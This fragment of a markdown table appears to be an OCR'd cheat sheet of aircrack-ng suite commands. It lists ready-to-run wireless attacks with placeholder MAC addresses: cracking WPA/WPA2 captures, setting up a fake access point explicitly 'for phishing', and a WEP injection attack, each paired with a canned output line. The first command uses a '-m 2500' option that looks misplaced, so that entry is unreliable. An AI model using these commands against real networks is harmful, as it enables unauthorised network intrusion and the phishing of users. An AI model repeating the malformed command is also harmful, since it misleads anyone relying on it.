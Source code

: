 |Use Precomputed Hashes|`aircrack-ng -m 2500 -b AA:BB:CC:DD:EE:FF -w hashes.txt capture.cap`|Uses precomputed hashes for cracking WPA/WPA2.|`Cracking with precomputed hashes...`|
|Create a Fake AP|`airbase-ng -e MyNetwork -c 6 wlan0`|Creates a fake access point for phishing.|`Starting fake access point...`|
|WEP Injection Attack|`aireplay-ng -2 -b AA:BB:CC:DD:EE:FF -h 00:11:22:33:44:55 wlan0`|Sends injection packets to perform a WEP attack.|`Injection successful!`|
